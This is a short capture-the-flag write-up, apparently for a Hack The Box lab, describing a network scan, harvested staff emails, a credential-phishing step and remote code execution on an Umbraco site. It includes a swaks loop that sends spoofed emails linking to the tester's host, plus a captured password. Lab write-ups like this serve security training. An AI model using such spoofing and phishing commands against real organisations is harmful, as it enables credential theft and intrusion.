

# Umbarco

At initial point we scanned the network with command nmap -Pn 10.10.10.225-246 and got 2 hosts with opened 80 port (10.10.10.245 and 10.10.10.246) and 2 hosts with opened 25 port (10.10.10.225 and 10.10.10.226).
Crawling the site at 10.10.10.246 we found 5 emails:

- d.taylor@htb.local
- m.brailsford@htb.local
- l.kelleher@htb.local
- j.leopold@htb.local
- j.breuer@htb.local

And after we tried to fish something sending a link to our fake site with the following command: 

```while read mail; do swaks --to $mail --from "it@htb.local" --header "Subject: http://10.10.14.34" --body "http://10.10.14.34" --server 10.10.10.226 --ehlo debain; done < mail.txt```
, where mail.txt is a list of founded emails.
Bingo! We got credentials! 
`user=d.taylor&password=M3g%40St0r3%21`
Using credentials and public exploit https://github.com/noraj/Umbraco-RCE we got an RCE on the target machine and found a flag.


 
